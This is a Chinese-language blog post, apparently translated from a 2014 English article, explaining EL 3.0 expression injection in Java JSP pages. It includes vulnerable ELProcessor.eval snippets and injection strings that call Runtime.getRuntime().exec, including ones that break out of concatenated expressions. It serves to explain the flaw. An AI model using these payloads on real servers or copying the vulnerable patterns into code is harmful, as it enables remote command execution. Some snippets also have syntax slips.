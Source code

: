 title: "Eval is evil: A EL3 Labmda Injection Attack in Java"
date: 2016-01-15 10:19:52
tags:
- 安全
categories:
- 程序语言

---

原文：<http://sectooladdict.blogspot.com/2014/12/el-30-injection-java-is-getting-hacker.html>

JSR341 [EL in Java](http://www.infoq.com/news/2013/07/el3)在最新的EL3.0中包含了多个增强：运算符，对类访问的安全限制等。

最常见的EL3的使用场景：

```
<%
ELProcessor elp = new ELProcessor();
Object msg = elp.eval("Welcome" + user.name);
out.println(msg.toString());
%>
```

EL Processor将会动态的eval进来的EL statement，比如这里是user.name，user可能是Bean或者注入的Java Class。这里就涉及到对类或者Bean的访问问题，EL3.0引入了ELManager来管理这些访问的安全问题，包含方法：`importClass, importPackage, importStatic`。这些方法可以用import各种各样的类甚至package进入EL的上下文里，然后可以被EL里的statement引用。因此为了使用Java class在EL中，可能需要如下语句：

```
elp.getELManager().importClass("java.io.File");
```

ELManager在这里的实现主要是为了保证EL中eval的上下文环境只能访问通过ELManager引入的内容，而不能访问外部的类。但是因为在JSP和Servlet中用到了大量的通用和常见的类，所以EL里eval还是有可能被滥用：

(1) 如果开发者已经import了攻击者所需要的类，则攻击者可以使用如下方式：

```
Input1 = "File.listRoots()[0].getAbsolutePath()";
<%@page import="javax.el.ELProcessor"%>
<%@page import="javax.el.ELManager">
...
<%
String input1 = request.getParameter("input1");
ELProcessor elp = new ELProcessor();
elp.getELManager().importClass("java.io.File");
Object path = elp.eval(input1);
out.println(path);
%>
```

(2) 如果开发者开放了攻击者可以import class或者package，也就是对传入的内容没有任何限制：

```
Input1 = "File.listRoots()[0].listFiles()[1].getAbsolutePath()"
Input2 = "java.io.File";
<%@page import="javax.el.ELProcessor"%>
<%@page import="javax.el.ELManager"%>
…
<%
String input1 = request.getParameter("input1");
String input2 = request.getParameter("input2");
ELProcessor elp = new ELProcessor();
elp.getELManager().importClass(Input2);
Object path = elp.eval(input1);
out.println(path);
%>
```

--------------------------------

尽管有ELManager对importClass importPackage这样的限制，但是一个很容易被攻击的地方是，EL默认载入了`java.lang`包，为了便于开发者可以访问一些静态类型，比如：`Boolean.True Integer.numberOfTrailingZero`。

EL默认所有的statement可以访问`java.lang`的静态对象，比如：`java.lang.System` 和 `java.lang.Runtime`，攻击者很容易滥用这些机制：

```
Input1 = "System.getProperties()"
<%@page import="javax.el.ELProcessor"%>
<%@page import="javax.el.ELManager"%>
…
<%
String input1 = request.getParameter("input1");
ELProcessor elp = new ELProcessor();
Object sys = elp.eval(input1);
out.println(sys);
%>
```

或者使用`java.lang.Runtime`进行远程执行：

```
Input1 = "Runtime.getRuntime().exec('mkdir abcde').waitFor()"
<%@page import="javax.el.ELProcessor"%>
<%@page import="javax.el.ELManager"%>
…
<%
String input1 = request.getParameter("input1");
ELProcessor elp = new ELProcessor();
Object sys = elp.eval(input1);
out.println(sys);
%>
```

虽然上面的举例，攻击者可以通过外部输入的字串（input）完全控制EL，但是大部分情况下开发者会对传入的字串进行拼接（concat）而使传入的攻击字串失效，但是道高一尺魔高一丈，由于EL引入的**NEW**操作符，导致拼接的字串可以像`SQL Injection`一样被`;`截断：

```
Input1 = "; Runtime.getRuntime().exec('mkdir aaaaa12').waitFor()"
<%@page import="javax.el.ELProcessor"%>
<%@page import="javax.el.ELManager"%>
…
<%
String input1 = request.getParameter("input1");
ELProcessor elp = new ELProcessor();
Object sys = elp.eval(("'Welcome' + input1);
out.println(sys);
%>
```

远程执行漏洞：

```
Input1 = "1); Runtime.getRuntime().exec('mkdir jjjbc12').waitFor("
<%@page import="javax.el.ELProcessor"%>
<%@page import="javax.el.ELManager"%>
…
<%
String input1 = request.getParameter("input1");
ELProcessor elp = new ELProcessor();
Object sys = elp.eval(("SomeClass.StaticMethod( + input1 + ")");
out.println(sys);
%>
```

-END-
